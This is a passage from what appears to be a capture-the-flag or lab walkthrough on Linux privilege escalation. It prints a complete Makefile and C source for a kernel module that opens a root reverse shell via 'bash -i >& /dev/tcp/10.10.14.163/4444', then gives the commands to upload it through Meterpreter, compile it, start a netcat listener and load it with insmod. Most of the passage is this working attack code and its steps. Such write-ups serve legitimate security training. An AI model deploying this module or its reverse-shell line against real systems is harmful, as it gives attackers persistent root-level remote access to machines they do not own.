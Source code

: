 First, the make file. We simple create a new file called `Makefile` with the following contents:

```
obj-m +=reverse-shell.o
all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```

Now, we make our binary the same way, here's that code:

```
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");
char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.10.14.163/4444 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };
static int __init reverse_shell_init(void) {
return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}
static void __exit reverse_shell_exit(void) {
printk(KERN_INFO "Exiting\n");
}
module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```
Note we changed the IP to our machine.

Now we can upload them both to our target machine via our `Meterpreter` session.

Commands:
`upload reverse-shell.c`
`upload Makefile`

{{< figure src="__GHOST_URL__/content/images/2021/09/image-16.png" >}}

Now with both files on the target, we drop back into a shell session. We will use the `make` command to make things..

Command:
`make`

{{< figure src="__GHOST_URL__/content/images/2021/09/image-17.png" >}}

Now we can start our `netcat` listener.

Command:
`nc -lvnp 4444`

Now we simply call `insmod reverse-shell.ko` and we should see our listener light up! 

Command:
`insmod reverse-shell.ko`
